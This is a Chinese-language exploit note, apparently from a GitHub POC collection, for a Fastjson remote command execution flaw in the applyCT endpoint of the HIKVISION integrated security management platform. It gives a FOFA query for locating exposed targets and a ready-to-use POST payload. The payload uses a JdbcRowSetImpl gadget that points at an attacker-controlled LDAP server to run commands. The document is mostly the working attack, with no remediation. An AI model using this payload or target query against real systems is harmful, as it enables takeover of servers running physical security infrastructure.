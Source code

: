 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
HIKVISION 综合安防管理平台
```

## FOFA

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241345726.png)